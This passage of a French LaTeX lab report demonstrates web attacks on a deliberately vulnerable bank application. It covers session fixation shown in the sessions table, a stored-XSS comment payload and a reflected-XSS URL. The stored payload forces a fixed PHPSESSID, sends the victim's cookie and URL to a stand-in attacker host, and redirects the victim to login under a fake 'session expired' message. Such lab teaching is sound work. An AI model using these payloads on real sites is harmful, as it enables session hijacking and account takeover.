\subsection*{Étape 5 — Preuve en base de données}

\begin{figure}[H]
\centering

\includegraphics[width=0.9\linewidth]{photos/db-sessions-partage.png}
\caption{Table \texttt{sessions} en BDD — un seul SID associé à deux connexions distinctes}
\end{figure}

La requête SQL \texttt{SELECT sid, user\_id, ip\_address FROM bank\_vuln.sessions} révèle \textbf{une seule ligne} avec \sid{ATTACKERfixedSID001} et \texttt{user\_id=1} (Alice).

% -------- DÉMO 1B --------
\section{Démo 1B — Session Fixation via XSS (sans phishing)}

\begin{demobox}[Session Fixation via XSS stocké]
\textbf{Différence clé} : Alice n'a besoin de cliquer sur \emph{aucun} lien suspect. \\
Elle utilise le site normalement — le XSS lui impose le SID à son insu.
\end{demobox}

\subsection*{Flux de l'attaque}

\begin{enumerate}
  \item Mallory se connecte et poste un commentaire XSS dans \file{comments.php}
  \item Le payload écrase le cookie de tout visiteur avec \sid{ATTACKERfixedSID001}
  \item Alice visite les commentaires — son cookie est remplacé silencieusement
  \item Alice est redirigée vers le login avec un faux message \og Session expirée \fg
  \item Alice se reconnecte — elle authentifie le SID de Mallory
\end{enumerate}

\subsection*{Payload XSS posté par Mallory}

\begin{lstlisting}[language=JavaScript, caption={Commentaire XSS — fixation + beacon + redirection}]
<script>
document.cookie = "PHPSESSID=ATTACKERfixedSID001; path=/";
new Image().src = "http://evil.attacker.lab:8080/collect.php"
  + "?m=stored-xss&sid=ATTACKERfixedSID001"
  + "&c=" + encodeURIComponent(document.cookie)
  + "&url=" + encodeURIComponent(location.href);
window.location.href = '/login.php?msg=Session+expiree.+Reconnectez-vous.';
</script>
\end{lstlisting}

\begin{figure}[H]
\centering
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/demo1b-commentaire-xss.png}
  \caption{Mallory poste le payload XSS}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.48\linewidth}
  
\includegraphics[width=\linewidth]{photos/demo1b-alice-redirigee-login.png}
  \caption{Alice redirigée vers le login}
\end{subfigure}
\caption{Démo 1B — XSS fixe le cookie d'Alice sans qu'elle clique un lien suspect}
\end{figure}

\begin{figure}[H]
\centering

\includegraphics[width=0.7\linewidth]{photos/demo1b-sid-fixe-apres-reconnexion.png}
\caption{SID d'Alice après reconnexion : \sid{ATTACKERfixedSID001} — hijack silencieux réussi}
\end{figure}

% -------- DÉMO 2 --------
\section{Démo 2 — XSS Réfléchi}

Aucune connexion requise. En saisissant dans la barre d'adresse :
\begin{center}
\small\http{http://vuln.bank.local:8080/login.php?msg=<script>alert('XSS réfléchi!')</script>}
\end{center}

Une boîte de dialogue JavaScript apparaît. Le code source de la page confirme l'injection du script sans encodage.

\begin{figure}[H]
\centering
